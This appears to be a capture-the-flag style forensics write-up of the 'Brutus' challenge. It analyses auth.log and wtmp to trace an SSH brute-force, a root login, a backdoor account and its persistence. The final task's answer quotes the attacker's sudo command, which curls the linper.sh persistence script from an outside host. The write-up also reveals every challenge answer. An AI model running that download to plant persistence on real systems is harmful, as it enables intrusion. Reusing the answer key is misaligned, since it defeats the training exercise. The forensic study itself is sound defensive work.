




# Brutus
#### Categories: DFIR <br> Difficulty: Very Easy

## Sherlock Scenario
In this Sherlock, you will familiarize yourself with Unix `auth.log` and `wtmp` logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using `auth.log`. Although `auth.log` is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even visibility into command execution.

## Attachments
- `Brutus.zip`

## Solve
After downloading and extracting the attachment, I obtained `auth.log`, `wtmp`, and a Python script named `utmp.py` used for parsing `wtmp`.

>[!Note] 
> In Linux, `auth.log` stores plain-text logs of authentication and authorization events. `wtmp` is a binary artifact that records all system login, logout, reboot, and shutdown events across the system.

<br>

### Task 1
#### Question:
Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

#### Answer:
Analyzing `auth.log` reveals a high volume of failed SSH connection attempts from IP address `65.2.161.68` within a very short timeframe.


Answer: **65.2.161.68**

<br>

### Task 2
#### Question:
The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

#### Answer:
Scrolling through `auth.log`, after numerous failed attempts, an accepted password event was logged for user `root`.


Answer: **root**

<br>

### Task 3
#### Question:
Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

#### Answer:
Using the provided Python script alongside `column -t` to parse and align the `wtmp` artifact:
```bash
python3 utmp.py wtmp | column -t
```


Answer: **2024-03-06 06:32:45**

<br>

### Task 4
#### Question:
SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

#### Answer:
The session identifier appears right below the successful login line in `auth.log` (`New session 37 of user root`).

Answer: **37**

<br>

### Task 5
#### Question:
The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

#### Answer:
After gaining initial access, the attacker created a new user named `cyberjunkie` and added this account to several privileged groups.


Answer: **cyberjunkie**

<br>

### Task 6
#### Question:
What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

#### Answer:
The attacker created a local account for persistence, which corresponds to sub-technique `T1136.001` (Create Account: Local Account) in the MITRE ATT&CK framework.

Answer: **T1136.001**

<br>

### Task 7
#### Question:
What time did the attacker's first SSH session end according to auth.log?

#### Answer:
The session close event (`session closed for user root`) for the initial SSH session is recorded in `auth.log`.


Answer: **2024-03-06 06:37:24**

<br>

### Task 8
#### Question:
The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

#### Answer:
After logging into the backdoor account, the attacker leveraged `sudo` to inspect `/etc/shadow` and download a remote persistence script.


Answer: **/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh**